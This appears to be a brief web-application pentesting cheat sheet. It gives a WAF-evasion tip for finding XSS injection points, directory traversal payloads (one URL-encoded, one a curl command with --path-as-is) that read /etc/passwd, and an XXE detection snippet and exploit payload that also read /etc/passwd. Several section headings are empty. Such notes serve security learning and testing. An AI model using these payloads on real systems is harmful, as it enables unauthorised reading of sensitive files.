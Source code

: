 ## XSS

Many WAFs block `alert()`.. so instead of it try using `<script>debugger;</script>` to detect xss injection point.

## CSRF
## CSTI
## Encryption
## Request Smuggling
## Cache Poisoning

## Directory traversal

Find parameters vulnerable to `../`

You may need to bypass WAF

`http://localhost/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`

Or to provide path as is 

`curl --path-as-is http://localhost:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`

Enjoy reading sensitive information.

## XXE injection

It arises from exploiting parsing of ENTITY element. It can be prevented by smart conding practices depending on language used: https://brightsec.com/blog/xxe-prevention/

For payloads refer to: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files

1. Detect XXE
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
2. Exploit 
`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`

## Security Misconfigurations
